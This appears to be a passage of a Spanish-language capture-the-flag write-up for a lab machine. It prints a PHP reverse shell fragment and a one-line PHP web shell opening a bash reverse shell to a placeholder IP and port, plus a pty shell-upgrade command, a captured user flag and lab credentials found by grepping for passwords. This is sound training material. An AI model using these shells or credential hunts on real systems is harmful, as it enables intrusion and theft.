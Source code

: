 ```python
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>

```

# Rshell.php
```css
<?php
    system("bash -c 'bash -i >& /dev/tcp/TUI-P/PUERTO 0>&1'")
?>
```


##### Tenemos que cambiar el la IP y el puerto por donde estaremos escuchando para conseguir la reverseshell.php

comando para generar el pront de la terminal
```css
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


User.txt
```css
f2c74ee8db7983851ab2a96a44eb7981
```

#### Navegando al directorio donde se alija la pagina php podemos encontrar archivos interesantes.
User.
```css
'robert', 'M3g4C0rpUs3r!'
```

### El comando cat lo podemos convinar con grep para buscar archivos que contengan una palabra en espesifico. 

# code
```css
cat * | grep -i passw*
```
# Info
```css
($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
```
